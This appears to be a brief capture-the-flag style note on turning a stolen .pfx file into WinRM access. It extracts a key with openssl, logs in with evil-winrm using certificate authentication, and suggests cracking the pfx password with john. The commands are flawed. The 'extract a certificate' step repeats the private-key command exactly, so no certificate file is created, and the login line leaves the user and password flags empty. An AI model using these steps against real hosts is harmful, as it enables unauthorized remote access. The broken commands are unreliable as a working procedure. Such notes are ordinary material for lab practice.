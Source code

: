 # Use pfx to connect to wirm
1. Extract the private key
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out priv.key
```
2. Extract a Certificate
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out priv.key
```
3. Connect to winrm
```bash
evil-winrm -S -c cert.crt -k priv.key -i <IP> -u -p
```
> Use john to crack the password
